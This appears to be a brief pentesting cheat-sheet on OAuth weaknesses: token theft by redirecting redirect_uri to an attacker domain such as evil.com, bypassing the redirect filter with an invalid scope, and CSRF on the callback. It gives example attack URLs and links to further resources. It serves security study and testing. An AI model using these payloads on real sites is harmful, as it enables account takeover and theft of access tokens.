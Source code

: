 ## Grabbing OAuth Token via redirect_uri

Redirect to a controlled domain to get the access token.

```
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

OAuth implementations should never whitelist entire domains, only a few URLs so that "redirect_uri" can’t be pointed to an Open Redirect

Sometimes you need to change the scope to an invalid one to bypass a filter on redirect_uri:

```
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```

## Cross-Site Request Forgery

Applications that do not check for a valid CSRF token in the OAuth callback are vulnerable. This can be exploited by initializing the OAuth flow and intercepting the callback (https://example.com/callback?code=AUTHORIZATION_CODE). This URL can be used in CSRF attacks.

## Resources

| URL |
| --- |
| https://book.hacktricks.xyz/pentesting-web/oauth-to-account-takeover |
| https://labs.detectify.com/2022/07/06/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/ |

## Mindmap

![OAuth2 mindmap](/oauth2_mindmap.jpeg)


